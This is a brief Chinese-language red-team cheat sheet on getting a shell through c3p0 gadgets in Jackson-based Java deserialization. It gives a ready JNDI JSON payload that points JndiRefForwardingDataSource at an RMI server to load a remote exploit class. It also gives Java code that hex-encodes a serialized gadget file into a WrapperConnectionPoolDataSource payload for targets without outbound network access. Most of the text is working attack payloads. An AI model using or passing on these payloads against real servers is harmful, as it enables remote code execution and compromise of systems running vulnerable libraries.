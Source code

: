 # c3p0有三种方式getshell

## http base

http base适用于原生反序列化

加载远程静态代码和无参构造方法触发

## jndi

jndi适用于jdk8u191以下支持reference情况

```json
{"object":["com.mchange.v2.c3p0.JndiRefForwardingDataSource",{"jndiName":"rmi://localhost:8088/Exploit", "loginTimeout":0}]}
```

## hex序列化字节加载器

hex序列化字节加载器适用于不出网但是目标依赖有gadget链的情况。

其原理是利用jackson的反序列化时调用userOverridesAsString的setter，在setter中运行过程中会把传入的HexAsciiSerializedMap开头的字符串进行解码并触发原生反序列化。

```java
InputStream in = new FileInputStream("C3P0.ser");
byte[] data = toByteArray(in);
in.close();
String HexString = bytesToHexString(data, data.length);
String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";
System.out.println(poc);

public static byte[] toByteArray(InputStream in) throws IOException {
    byte[] classBytes;
    classBytes = new byte[in.available()];
    in.read(classBytes);
    in.close();
    return classBytes;
}

public static String bytesToHexString(byte[] bArray, int length) {
    StringBuffer sb = new StringBuffer(length);
    for(int i = 0; i < length; ++i) {
        String sTemp = Integer.toHexString(255 & bArray[i]);
        if (sTemp.length() < 2) {
            sb.append(0);
        }

        sb.append(sTemp.toUpperCase());
    }
    return sb.toString();
}
```

> 参考
>
> http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/

